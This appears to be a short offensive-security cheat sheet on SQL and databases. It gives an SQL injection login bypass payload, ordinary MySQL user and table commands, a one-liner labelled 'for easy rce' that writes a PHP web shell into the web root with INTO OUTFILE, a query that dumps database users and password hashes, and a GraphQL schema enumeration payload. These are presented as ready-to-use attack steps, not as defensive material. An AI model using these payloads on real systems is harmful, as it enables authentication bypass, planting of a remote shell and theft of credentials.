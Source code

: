 # SQL/Databases
SQL is a standard language for storing, editing and retrieving data in databases. A query can look like so:

**SELECT \* FROM users WHERE username = :username AND password := password**

If we have our username as admin and our password as: **' or 1=1 -- -** it will insert this into the query and authenticate our session.

**SELECT \* FROM users WHERE username = admin AND password := ' or 1=1 -- -**

The extra SQL we inputted as our password has changed the above query to break the initial query and proceed (with the admin user) if 1==1, then comment the rest of the query to stop it breaking.

To create/alter a user or change a users perms, use: 

[https://www.digitalocean.com/community/tutorials/how-to-create-a-new-user-and-grant-permissions-in-mysql](https://www.digitalocean.com/community/tutorials/how-to-create-a-new-user-and-grant-permissions-in-mysql) 

```text-plain
CREATE USER 'sammy'@'localhost' IDENTIFIED BY 'password';
CREATE USER 'openemr_user'@'%' IDENTIFIED BY 'Password12';
ALTER USER 'sammy'@'localhost' IDENTIFIED WITH mysql_native_password BY 'password';
GRANT PRIVILEGE ON database.table TO 'username'@'host';
GRANT ALL PRIVILEGES ON openemr.* TO 'openemr_user'@'%';
DROP USER 'username'@'localhost'; # to delete a user
```

To create a table,  use:

```text-plain
CREATE TABLE MyGuests (
id INT(6) UNSIGNED AUTO_INCREMENT PRIMARY KEY,
firstname VARCHAR(30) NOT NULL,
lastname VARCHAR(30) NOT NULL,
email VARCHAR(50),
reg_date TIMESTAMP DEFAULT CURRENT_TIMESTAMP ON UPDATE CURRENT_TIMESTAMP
) 
```

for easy rce, use:

```text-plain
select '<?php $cmd=$_GET["cmd"];system($cmd);?>' INTO OUTFILE '/var/www/html/shell.php';
```

To see current users and their passwords, use:

```text-plain
SELECT CONCAT('''',user,'''@''',host,'''') dbuser,password FROM mysql.user;
```

For graphql enum, use this payload [https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/GraphQL%20Injection#enumerate-database-schema-via-introspection](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/GraphQL%20Injection#enumerate-database-schema-via-introspection) 

```text-plain
{"query":"{\n victims {\n filename\n id\n key\n name\n timer\n }\n}"}
```